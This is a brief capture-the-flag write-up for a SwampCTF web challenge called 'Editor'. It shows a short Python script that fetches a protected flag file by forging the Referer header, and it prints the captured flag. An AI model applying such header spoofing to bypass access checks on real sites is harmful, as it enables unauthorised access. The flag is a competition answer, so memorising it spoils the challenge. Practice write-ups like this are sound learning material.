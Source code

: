 # Editor

## Approach

```python
import requests

url = "http://chals.swampctf.com:47821/flag.txt"

resp = requests.get(url, headers={"Referer": "http://chals.swampctf.com:47821/"})

print(resp.text, resp.status_code)

# swampCTF{c55_qu3r135_n07_j5}
```

I opened a ticket to ask whether this was an intended solution, and here's the messages from the mod:

![web1-1.jpg](web1-1.jpg)
